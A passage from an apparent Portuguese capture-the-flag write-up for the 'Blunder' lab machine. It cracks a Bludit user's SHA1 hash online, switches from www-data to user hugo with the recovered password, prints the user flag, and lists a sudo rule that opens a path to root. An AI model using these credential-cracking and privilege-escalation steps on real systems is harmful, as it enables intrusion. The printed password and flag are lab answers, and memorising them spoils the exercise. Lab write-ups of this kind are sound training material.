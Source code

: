 temos a password e os dados do usuário hugo

podemos identificar uma hash dentro de password 

#$ hashid faca404fd5c0a31cf1897b823c695c85cffeb98d

se não identificar pelo comando hashid use um site para decriptografar md5

pode ser o https://md5decrypt.net/en/Sha1

#faca404fd5c0a31cf1897b823c695c85cffeb98d : Password120 
essa password é do user hugo

agora eu saio do usuário de permissão do apache  `www-data`  para o usuário do `Hugo`

```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su hugo              
su hugo
Password: Password120

hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ 
```

Dentro da home do hugo tenho o arquivo  user.txt

```bash
hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cd ~
cd ~
hugo@blunder:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
hugo@blunder:~$ cat user.txt    
cat user.txt
d837bfc74affbc6e39b91e489bb9fbb8
hugo@blunder:~$ 
```

obs> auto-complete com <tab> não vai funcionar dentro do meterpreter

# subindo privilegio para root

```bash
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$ 
```
consigo ver o secure path local
